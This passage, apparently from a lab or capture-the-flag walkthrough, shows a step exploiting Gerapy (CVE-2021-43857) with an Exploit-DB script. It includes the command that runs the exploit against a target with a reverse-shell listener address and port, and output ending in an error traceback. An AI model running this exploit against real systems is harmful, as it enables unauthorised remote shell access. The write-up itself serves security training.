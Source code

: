 ![](./assets/project-config.png)

14) Inspecting the exploit file `/usr/share/exploitdb/exploits/python/remote/50640.py` we see that it actually logs in on our behalf and defines the project, so we don't need to do it ourselves. Looking at the code we see it also sets up the local listener to catch the reverse shell -- so we don't need to catch it ourselves (e.g. with `nc` or other client).

```
$ python /usr/share/exploitdb/exploits/python/remote/50640.py -t target -p 8000 -L 192.168.49.53 -P 4444
  ______     _______     ____   ___ ____  _       _  _  _____  ___ ____ _____ 
 / ___\ \   / / ____|   |___ \ / _ \___ \/ |     | || ||___ / ( _ ) ___|___  |
| |    \ \ / /|  _| _____ __) | | | |__) | |_____| || |_ |_ \ / _ \___ \  / / 
| |___  \ V / | |__|_____/ __/| |_| / __/| |_____|__   _|__) | (_) |__) |/ /  
 \____|  \_/  |_____|   |_____|\___/_____|_|        |_||____/ \___/____//_/   
                                                                              

Exploit for CVE-2021-43857
For: Gerapy < 0.9.8
[*] Resolving URL...
[*] Logging in to application...
[*] Login successful! Proceeding...
[*] Getting the project list
Traceback (most recent call last):
  File "/usr/share/exploitdb/exploits/python/remote/50640.py", line 130, in <module>
    exp.exploitation()
  File "/usr/share/exploitdb/exploits/python/remote/50640.py", line 76, in exploitation
    name = dict3[0]['name']
           ~~~~~^^^
IndexError: list index out of range
```
